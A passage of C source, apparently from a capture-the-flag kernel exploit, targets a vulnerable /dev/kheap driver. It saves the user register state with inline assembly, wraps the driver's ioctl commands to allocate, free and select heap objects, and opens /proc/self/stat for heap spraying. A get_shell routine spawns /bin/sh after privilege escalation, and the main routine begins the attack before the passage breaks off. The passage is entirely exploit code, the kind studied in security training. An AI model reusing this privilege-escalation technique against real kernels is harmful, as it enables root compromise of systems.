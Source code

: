 ```c
{
  asm(
    "movq %%cs, %0;"
    "movq %%ss, %1;"
    "movq %%rsp, %3;"
    "pushfq;"
    "pop %2;"
    : "=r"(user_cs),"=r"(user_ss),"=r"(user_eflag),"=r"(user_rsp)
    :
    : "memory"
  );
}

void new(uint64_t idx)
{
  struct info arg={idx,NULL};
  ioctl(dev_fd,0x10000,&arg);
}

void delete(uint64_t idx)
{
  struct info arg={idx,NULL};
  ioctl(dev_fd,0x10001,&arg);
}

void choose(uint64_t idx)
{
  struct info arg={idx,NULL};
  ioctl(dev_fd,0x10002,&arg);
}

int seq_open()
{
  int seq;
  if ((seq=open("/proc/self/stat",O_RDONLY))==-1)
  {
    puts("[X] Seq Open Error");
    exit(0);
  }
  return seq;
}

void get_shell()
{
  system("/bin/sh");
  exit(0);
}

int main()
{
  save_state();
  dev_fd=open("/dev/kheap",O_RDWR);
  if (dev_fd<0)
  {
    puts("[X] Device Open Error");
    exit(0);
  }
  

  uint64_t *buf=malloc(0x20); uint64_t *recv=malloc(0x20);
  
  new(0);
  choose(0);
```